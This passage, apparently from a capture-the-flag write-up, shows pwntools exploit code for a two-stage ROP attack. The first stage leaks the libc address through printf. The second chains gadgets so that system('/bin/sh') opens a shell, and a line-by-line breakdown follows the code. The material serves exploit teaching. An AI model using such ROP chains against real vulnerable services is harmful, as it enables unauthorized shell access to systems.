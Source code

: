 ```python
# Receive until "My" (from "My name?") to capture the leaked address bytes
libc.address = int.from_bytes(io.recvuntil(b"My",drop=True),"little") - libc.sym["printf"]
print(hex(libc.address))

# Stage 2: Execute system to spawn shell
io.sendafter(b"name?\n",flat({
    0: b"\n",
    8: b"AAAAAAAA",
    0x70+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        next(libc.search(b"/bin/sh")),
        libc.sym["system"],
    ]
}))

# Get flag
io.interactive()
```

## Exploitation and Flag Capture

Running the exploit against the target server:

<img src="/assets/img/posts/rop/page6_img1.png" alt="Flag Capture" width="800">

### Exploit Breakdown

**Lines 11-12**: Define ROP gadgets for argument passing and stack alignment

**Lines 18-27**: Stage 1 ROP Chain for libc leak
- Overflow buffer with padding
- Use `pop rdi` gadget to load `printf@got` into RDI
- Call `printf@plt` to print the address
- Return to `main()` for Stage 2

**Line 33**: Calculate libc base address from leaked printf address
```python
libc.address = leaked_printf - libc.sym["printf"]
```

**Lines 37-45**: Stage 2 ROP Chain for shell execution
- Overflow buffer again
- Use `pop rdi` gadget to load address of "/bin/sh" string into RDI
- Call `system()` with "/bin/sh" as argument
- Get shell access
